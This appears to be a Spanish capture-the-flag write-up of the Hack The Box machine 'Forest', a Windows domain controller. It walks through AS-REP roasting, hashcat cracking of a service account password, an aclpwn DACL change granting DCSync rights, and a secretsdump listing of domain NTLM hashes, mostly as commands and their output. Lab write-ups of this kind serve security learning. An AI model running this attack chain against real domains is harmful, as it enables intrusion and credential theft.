

Hack The Box - Forest (Active)

Contenido
- Contenido protegido por contraseña.
- Para desbloquear el contenido debes Ingresar la flag
root.txtde la maquina.
| Nombre | Forest |
|---|---|
| OS | Windows |
| Puntos | 20 |
| Dificultad | Facil |
| IP | 10.10.10.158 |
| Maker | mrb3n & egre55 |
MASSCAN & NMAP
Escaneo de puerto tcp/udp, en el cual nos muestra varios puertos abiertos.
root@kali:~/htb/forest# masscan -p1-65535,U:1-65535 10.10.10.161 --rate=1000 -e tun0
Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-10-25 04:57:31 GMT
-- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 135/tcp on 10.10.10.161
Discovered open port 464/tcp on 10.10.10.161
Discovered open port 49910/tcp on 10.10.10.161
Discovered open port 58925/udp on 10.10.10.161
Discovered open port 445/tcp on 10.10.10.161
Discovered open port 139/tcp on 10.10.10.161
Discovered open port 49664/tcp on 10.10.10.161
Discovered open port 9389/tcp on 10.10.10.161
Discovered open port 49671/tcp on 10.10.10.161
Discovered open port 49666/tcp on 10.10.10.161
Discovered open port 3269/tcp on 10.10.10.161
Discovered open port 593/tcp on 10.10.10.161
Discovered open port 49667/tcp on 10.10.10.161
Discovered open port 49676/tcp on 10.10.10.161
Discovered open port 49703/tcp on 10.10.10.161
Discovered open port 49684/tcp on 10.10.10.161
Discovered open port 53/tcp on 10.10.10.161
# Nmap 7.70 scan initiated Fri Oct 25 01:01:38 2019 as: nmap -p- --min-rate 1000 -o nmap.scan 10.10.10.161
Warning: 10.10.10.161 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.161
Host is up (0.23s latency).
Not shown: 63731 closed ports, 1780 filtered ports
PORT STATE SERVICE
53/tcp open domain
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
445/tcp open microsoft-ds
464/tcp open kpasswd5
593/tcp open http-rpc-epmap
636/tcp open ldapssl
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
5985/tcp open wsman
9389/tcp open adws
47001/tcp open winrm
49664/tcp open unknown
49665/tcp open unknown
49666/tcp open unknown
49667/tcp open unknown
49671/tcp open unknown
49676/tcp open unknown
49677/tcp open unknown
49684/tcp open unknown
49703/tcp open unknown
49910/tcp open unknown
# Nmap done at Fri Oct 25 01:06:47 2019 -- 1 IP address (1 host up) scanned in 308.58 seconds
# Nmap 7.70 scan initiated Fri Oct 25 01:08:05 2019 as: nmap -sV -sC -p- --min-rate 1000 -o script_nmap.scan 10.10.10.161
Warning: 10.10.10.161 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.161
Host is up (0.26s latency).
Not shown: 64311 closed ports, 1201 filtered ports
PORT STATE SERVICE VERSION
53/tcp open domain?
| fingerprint-strings:
| DNSVersionBindReqTCP:
| version
|_ bind
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2019-10-25 05:20:03Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp open microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49671/tcp open msrpc Microsoft Windows RPC
49676/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49677/tcp open msrpc Microsoft Windows RPC
49684/tcp open msrpc Microsoft Windows RPC
49703/tcp open msrpc Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.70%I=7%D=10/25%Time=5DB2843D%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version
SF:\x04bind\0\0\x10\0\x03");
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 2h27m49s, deviation: 4h02m51s, median: 7m36s
| smb-os-discovery:
| OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
| Computer name: FOREST
| NetBIOS computer name: FOREST\x00
| Domain name: htb.local
| Forest name: htb.local
| FQDN: FOREST.htb.local
|_ System time: 2019-10-24T22:23:05-07:00
| smb-security-mode:
| account_used: <blank>
| authentication_level: user
| challenge_response: supported
|_ message_signing: required
| smb2-security-mode:
| 2.02:
|_ Message signing enabled and required
| smb2-time:
| date: 2019-10-25 01:22:33
|_ start_date: 2019-10-25 00:22:54
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 25 01:16:55 2019 -- 1 IP address (1 host up) scanned in 529.48 seconds
ENUM4LINUX
Vemos que tenemos muchos puertos por enumerar vamos a iniciar con windows en samba con enum4linux, enumerando los usuarios dentro de la maquina.
root@kali:~/htb/forest# enum4linux -U -l 10.10.10.161
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Fri Nov 1 04:31:58 2019
==========================
| Target Information |
==========================
Target ........... 10.10.10.161
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
====================================================
| Enumerating Workgroup/Domain on 10.10.10.161 |
====================================================
[E] Can't find workgroup/domain
=====================================
| Session Check on 10.10.10.161 |
=====================================
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 437.
[+] Server 10.10.10.161 allows sessions using username '', password ''
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 451.
[+] Got domain/workgroup name:
=====================================================
| Getting information via LDAP for 10.10.10.161 |
=====================================================
[+] Long domain name for 10.10.10.161: htb.local
[+] 10.10.10.161 appears to be a root/parent DC
===========================================
| Getting domain SID for 10.10.10.161 |
===========================================
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 359.
Domain Name: HTB
Domain Sid: S-1-5-21-3072663084-364016917-1341370565
[+] Host is part of a domain (not a workgroup)
=============================
| Users on 10.10.10.161 |
=============================
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 866.
index: 0x2137 RID: 0x463 acb: 0x00020015 Account: $331000-VK4ADACQNUCA Name: (null) Desc: (null)
index: 0xfbc RID: 0x1f4 acb: 0x00020010 Account: Administrator Name: Administrator Desc: Built-in account for administering the computer/domain
index: 0x2369 RID: 0x47e acb: 0x00000210 Account: andy Name: Andy Hislip Desc: (null)
index: 0xfbe RID: 0x1f7 acb: 0x00000215 Account: DefaultAccount Name: (null) Desc: A user account managed by the system.
index: 0xfbd RID: 0x1f5 acb: 0x00000215 Account: Guest Name: (null) Desc: Built-in account for guest access to the computer/domain
index: 0x2352 RID: 0x478 acb: 0x00000210 Account: HealthMailbox0659cc1 Name: HealthMailbox-EXCH01-010 Desc: (null)
index: 0x234b RID: 0x471 acb: 0x00000210 Account: HealthMailbox670628e Name: HealthMailbox-EXCH01-003 Desc: (null)
index: 0x234d RID: 0x473 acb: 0x00000210 Account: HealthMailbox6ded678 Name: HealthMailbox-EXCH01-005 Desc: (null)
index: 0x2351 RID: 0x477 acb: 0x00000210 Account: HealthMailbox7108a4e Name: HealthMailbox-EXCH01-009 Desc: (null)
index: 0x234e RID: 0x474 acb: 0x00000210 Account: HealthMailbox83d6781 Name: HealthMailbox-EXCH01-006 Desc: (null)
index: 0x234c RID: 0x472 acb: 0x00000210 Account: HealthMailbox968e74d Name: HealthMailbox-EXCH01-004 Desc: (null)
index: 0x2350 RID: 0x476 acb: 0x00000210 Account: HealthMailboxb01ac64 Name: HealthMailbox-EXCH01-008 Desc: (null)
index: 0x234a RID: 0x470 acb: 0x00000210 Account: HealthMailboxc0a90c9 Name: HealthMailbox-EXCH01-002 Desc: (null)
index: 0x2348 RID: 0x46e acb: 0x00000210 Account: HealthMailboxc3d7722 Name: HealthMailbox-EXCH01-Mailbox-Database-1118319013 Desc: (null)
index: 0x2349 RID: 0x46f acb: 0x00000210 Account: HealthMailboxfc9daad Name: HealthMailbox-EXCH01-001 Desc: (null)
index: 0x234f RID: 0x475 acb: 0x00000210 Account: HealthMailboxfd87238 Name: HealthMailbox-EXCH01-007 Desc: (null)
index: 0xff4 RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null) Desc: Key Distribution Center Service Account
index: 0x2360 RID: 0x47a acb: 0x00000210 Account: lucinda Name: Lucinda Berger Desc: (null)
index: 0x236a RID: 0x47f acb: 0x00000210 Account: mark Name: Mark Brandt Desc: (null)
index: 0x236b RID: 0x480 acb: 0x00000210 Account: santi Name: Santi Rodriguez Desc: (null)
index: 0x235c RID: 0x479 acb: 0x00000210 Account: sebastien Name: Sebastien Caron Desc: (null)
index: 0x215a RID: 0x468 acb: 0x00020011 Account: SM_1b41c9286325456bb Name: Microsoft Exchange Migration Desc: (null)
index: 0x2161 RID: 0x46c acb: 0x00020011 Account: SM_1ffab36a2f5f479cb Name: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9} Desc: (null)
index: 0x2156 RID: 0x464 acb: 0x00020011 Account: SM_2c8eef0a09b545acb Name: Microsoft Exchange Approval Assistant Desc: (null)
index: 0x2159 RID: 0x467 acb: 0x00020011 Account: SM_681f53d4942840e18 Name: Discovery Search Mailbox Desc: (null)
index: 0x2158 RID: 0x466 acb: 0x00020011 Account: SM_75a538d3025e4db9a Name: Microsoft Exchange Desc: (null)
index: 0x215c RID: 0x46a acb: 0x00020011 Account: SM_7c96b981967141ebb Name: E4E Encryption Store - Active Desc: (null)
index: 0x215b RID: 0x469 acb: 0x00020011 Account: SM_9b69f1b9d2cc45549 Name: Microsoft Exchange Federation Mailbox Desc: (null)
index: 0x215d RID: 0x46b acb: 0x00020011 Account: SM_c75ee099d0a64c91b Name: Microsoft Exchange Desc: (null)
index: 0x2157 RID: 0x465 acb: 0x00020011 Account: SM_ca8c2ed5bdab4dc9b Name: Microsoft Exchange Desc: (null)
index: 0x2365 RID: 0x47b acb: 0x00010210 Account: svc-alfresco Name: svc-alfresco Desc: (null)
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 881.
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
enum4linux complete on Fri Nov 1 04:32:35 2019
KERBEROS - impacket GetNPUsers
Obtuvimos poca informacion sobre el puerto de ldap, pero obtuvimos una lista de usuarios, vamos al puerto 88 de autenticacion de kerberos para obtener informacion sobre ese puerto utilizando la lista de usuarios y uno de los scripts de impacket para verificar si uno de los usuarios nos permite recolectar mensajes AS_REP sin pre autenticacion.
Lista de Usuarios:
Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
Ejecucion de script de impacket:
root@kali:~/impacket/examples# python GetNPUsers.py HTB/ -usersfile users -format hashcat -outputfile hashes.asreproast -dc-ip 10.10.10.161
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
Dentro del archivo de hashes.asreproast encontramos el hash de uno de los usuarios.
HASHCAT - KERBEROs
Utilizamos hashcat para crackear el hash que obtuvimos con el script de impacket.
sckull@uplifted:~/tools/hashcat$ ./hashcat64.bin -m 18200 pass_forest -o cracked.txt ../rockyou.txt --force
hashcat (v5.1.0) starting...
nvmlDeviceGetFanSpeed(): Not Supported
OpenCL Platform #1: NVIDIA Corporation
======================================
* Device #1: GeForce MX130, 501/2004 MB allocatable, 3MCU
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.
Watchdog: Temperature abort trigger set to 90c
Dictionary cache built:
* Filename..: ../rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec
Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB:2f985636440000c102e7...6864af
Time.Started.....: Fri Nov 1 02:46:04 2019 (2 secs)
Time.Estimated...: Fri Nov 1 02:46:06 2019 (0 secs)
Guess.Base.......: File (../rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 2181.4 kH/s (9.63ms) @ Accel:256 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 4128768/14344385 (28.78%)
Rejected.........: 0/4128768 (0.00%)
Restore.Point....: 4079616/14344385 (28.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: s9039554h -> ruddsound1
Hardware.Mon.#1..: Temp: 51c Util: 63% Core:1189MHz Mem:2505MHz Bus:4
Started: Fri Nov 1 02:45:56 2019
Stopped: Fri Nov 1 02:46:07 2019
Pass:
$krb5asrep$23$svc-alfresco@HTB:2f985636440000c102e7a67d333b3d24$7b3a05d397f5ea656b6649ef36dfe3b0c9c5be004550dc64da438b19c056b1caf1c1408ad8840c7cb507c5ca040ad1abf3ceea9d68e13f82fb0d18df542343004c4ec202ae4b9b818457cde2a1ffe74bd8cf0bee3795e74fd1410946c1ae5323e00b3cfceda7f26e053eb6c2e3922dce1095812a6071aeee4a000442ae3f86f3676119df60fdf61bb4f287e3317128664557f0fa6f3b745b5f122afa5612b0c8fc398b2869e97240a81dda272f4ff802914b6c7c59cc80fd5e357097dd2848d66b5f346cf6bfe8de21bf5ba0ef2646c559be47ce0af236c2ce1e45afaf6864af:s3rvice
SMBMAP
Utilizamos las credenciales del usuario svc-alfresco para ver en que SHARENAMES tenemos acceso en el puerto de samba.

Confirmamos que solo tenemos acceso a NETLOGON y SYSVOL con psexec.

User svc-alfresco
En el reporte del escaneo de nmap vemos un puerto en el que podemos utilizar las credenciales para poder obtener una shell en el puerto de WINRM, utilizamos EVILRM.
Evil-RM: https://github.com/Hackplayers/evil-winrm
Install: gem install evil-winrm

PRIVILEGE ESCALATION
Utilizamos bloodhound.py para poder obtener la lista de usuarios, permisos de usuarios, grupos de usuarios e importar los datos en bloodhound para ver la ruta que podemos seguir para obtener permisos administrativos utilizando la informacion que nos proporciona bloodhound.
Booldhound.py
Utilizamos las credenciales del usuario svc-alfresco, el dominio y el namesever para obtener los datos.

Comprimimos los archivos en zip.

Bloodhound
Importamos los datos que obtuvimos a bloodhound. Nos mostrará un mapa con todos los usuarios disponibles y los grupos de usuarios a los que pertenecen, con los distintos permisos que cada uno tiene, incluso, los permisos que tienen uno sobre otro.

Nos ubicamos en el usuario actual (svc-alfresco) y vemos informacion del usuario, lo que nos interesa es Recehable High Values.

Podemos ver que el usuario es miembro de varios grupos, y tiene permisos de WriteDACL, que le permiten al usuario modificar permisos de dominio en este caso htb.local y realizar operaciones en DCSync.

Bloodhound nos proporciona cierta informacion que puede ser de utilidad para realizar estas operaciones, para ello nos ubicamos en Writedacl > Help > Abuse Info.
ACLPWN
Podemos hacerlo de forma automatizada utilizando esta herramienta, aclpwn permite encontrar y explotar una ruta para obtener privilegios administrativos utilizando los datos obtenidos de bloodhound desde la base de datos.
Realizamos una busqueda del camino mas cercano:
Los parametros:
-f usuario/computadora (Es el nodo de inicio)
-ft user (Especificamos que el nodo inicial es usuario/computadora/dominio/grupo)
-t htb.local (El destino al cual deseamos llegar)
-tt domain (Especificamos que el destino es usuario/computadora/dominio/grupo)
-d htb.local (El Dominio)
-du neo4j (Usuario para la base de datos)
-dp toor (Contraseña para la base de datos)
-dry (Especificamos que no deseamos atacar)
Podemos ver que encontro un camino y puede ser explotado.
root@kali:~/tools/aclpwn.py# aclpwn -f svc-alfresco -ft user -t htb.local -tt domain -d htb.local -dry -du neo4j -dp toor
[+] Path found!
Path [0]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL)-[MemberOf]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
[!] Unsupported operation: GetChanges on HTB.LOCAL (Domain)
[-] Invalid path, skipping
[+] Path found!
Path [1]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
Please choose a path [0-1] 1
[+] Path validated, the following modifications are required for exploitation in the current configuration:
[-] Adding user SVC-ALFRESCO to group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL
[-] Modifying domain DACL to give DCSync rights to SVC-ALFRESCO

root@kali:~/tools/impacket/examples# aclpwn -f svc-alfresco -ft user -t htb.local -tt domain -d htb.local -du neo4j -dp toor -s 10.10.10.161
Please supply the password or LM:NTLM hashes of the account you are escalating from:
[+] Path found!
Path [0]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL)-[MemberOf]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
[!] Unsupported operation: GetChanges on HTB.LOCAL (Domain)
[-] Invalid path, skipping
[+] Path found!
Path [1]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
Please choose a path [0-1] 1
[-] Memberof -> continue
[-] Memberof -> continue
[-] Memberof -> continue
[-] Adding user SVC-ALFRESCO to group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL
[+] Added CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local as member to CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
[-] Re-binding to LDAP to refresh group memberships of SVC-ALFRESCO@HTB.LOCAL
[+] Re-bind successful
[-] Modifying domain DACL to give DCSync rights to SVC-ALFRESCO
[+] Dacl modification successful
[+] Finished running tasks
[+] Saved restore state to aclpwn-20191130-014547.restore

Ahora que que tenemos permisos DCSync podemos utilizar secretsdump.py para obtener los hash de los usuarios.
root@kali:~/tools/impacket# secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:179967e72ed1faea7d8de2f3c2b5d003:::
